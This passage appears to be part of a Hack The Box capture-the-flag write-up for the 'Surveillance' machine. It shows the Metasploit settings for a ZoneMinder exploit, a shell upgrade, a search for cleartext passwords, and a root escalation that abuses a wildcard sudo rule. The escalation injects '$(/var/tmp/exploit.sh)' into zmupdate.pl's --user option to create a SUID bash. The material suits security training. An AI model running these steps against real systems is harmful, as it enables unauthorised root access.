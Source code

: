 ```markdown
set rport 8085
set lhost <your IP here>
set targeturi /
set target 0
exploit
```
Once the metepreter session is received, open a shell and find out it is running under the `zoneminder` user context.

![surveillance3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e516f96d-e31a-4b8e-99a8-10a418dc99e2)

This meterpreter shell is functional, but not interactive. The best option to upgrade the shell is to use the meterpreter session to send a `nc mkfifo` reverse shell to kali, then upgrade to TTY.
```markdown
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL-Z
sty raw -echo
export TERM=xterm
```
The resulting shell is interactive and can be used to do some enumeration in the ZoneMinder root directory `/usr/share/zoneminder/www`. Inside this location we launch a `grep` scan for clear text passwords in the file system.
```markdown
grep --color=always -rnw . -ie "PASSWORD" 2> /dev/null
```
A `database.php` file is reported in `/usr/share/zoneminder/www/api/app/Config/database.php` containing mysql credential; however, although this credential can be used to log into the mysql database running on port 3306, this does not lead to anything useful.

![surveillance4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/55e016c9-4e05-4a35-9bcd-ad11d3f49ab8)

Moving forward, next step is to verify if `zoneminder` is a sudoer.
```markdown
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
This means any user can run any binary called zm*.pl in the `/usr/bin/` directory under the root context, no password will be prompted. Morevoer, any option can be passed to the binary since it uses a wildcard in the sudoers file. This is a wide open configuration which can be abused using wildcard injection.
Prepare a shell exploit.
```markdown
echo 'cp /bin/bash /var/tmp/bash;chmod 4755 /var/tmp/bash' > /var/tmp/exploit.sh
chmod +x /var/tmp/exploit.sh
```
Now just run any zm* binary and inject a command calling the exploit, it will be executed under the root context. For example, using `zmupdate` with the `--version` option will force the tool to upgrade the database, and it allows us to inject a command to execute the exploit.
```markdown
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/var/tmp/exploit.sh)'
```
This will execute `exploit.sh` under the root context. Finish the box executing a root bash.
```markdown
/var/tmp/bash -p
whoami
root
```

![surveillance5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3123f308-5b47-47a2-8622-c3398294518f)
